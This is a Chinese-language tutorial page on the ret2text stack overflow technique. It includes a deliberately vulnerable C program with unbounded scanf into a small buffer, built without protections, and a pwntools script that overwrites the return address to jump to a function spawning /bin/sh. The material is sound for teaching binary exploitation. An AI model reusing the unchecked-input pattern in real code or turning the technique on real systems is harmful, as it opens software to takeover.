 ```yaml
---
title: "ret2text"
description: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
lead: "Doks is a Hugo theme for building secure, fast, and SEO-ready documentation websites, which you can easily update and customize."
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

既然溢出可以覆盖局部变量，即利用栈三大功能之一保存局部变量，那么也可以利用栈三大功能之一保存函数返回后的地址，我们可以溢出覆盖函数返回后的地址为任意我们想要它返回执行的地方，从而实现getshell

![](image-20230328234751184.png)

举一个例子来说

```c
#include<stdio.h>
#include<stdlib.h>

void getshell() {    // getshell函数
    system("/bin/sh");
}

void run(){    // 写run函数的目的是为了简化，因为现在32位main函数需要绕过ecx
    char buf[0x10];    // local variable
    printf("input: ");
    scanf("%s", buf);
}

int main(){
    run();
    return 0;
}
// gcc ret2text.c -o ret2text -m32 -fno-pic -no-pie -fno-stack-protector
```

按照正常的程序流程来说，main函数应该会返回执行\_libc\_start\_main中的指令，但是scanf的%s格式化控制符是可以无字符数限制输入造成栈溢出的，这样我们就可以想办法覆盖main函数的函数返回地址为程序中getshell函数的地址，从而执行 `system("/bin/sh");`
首先需要的是确定getshell函数的位置，这里可以用objdump之类的工具来查看

![](image-20230328234800253.png)

然后只需要将 `0x804849b` 写入函数返回地址即可，然后就是找buf变量到函数返回地址的偏移量

![](image-20230328234807546.png)

可以从main函数看出buf位于 `ebp-0x18` ，那么偏移量 = 0x18 + 4
写一个python脚本来进行实现攻击，并gdb来看看效果

```python
from pwn import*
context.terminal = ['tmux','splitw', '-h']
o = process("./ret2text")
payload = 'a'*(0x18 + 4) + p32(0x804849b)
gdb.attach(o)
o.sendline(payload)
o.interactive()
```

在进行覆盖前栈内容为

![](image-20230328234815605.png)

覆盖后将变为

![](image-20230328234824023.png)

运行到ret看它的跳转方向

![](image-20230328234833153.png)

这个时候esp指向了getshell函数，即跳转去执行getshell函数

![](image-20230328234838338.png)

继续执行

![](image-20230328234843570.png)

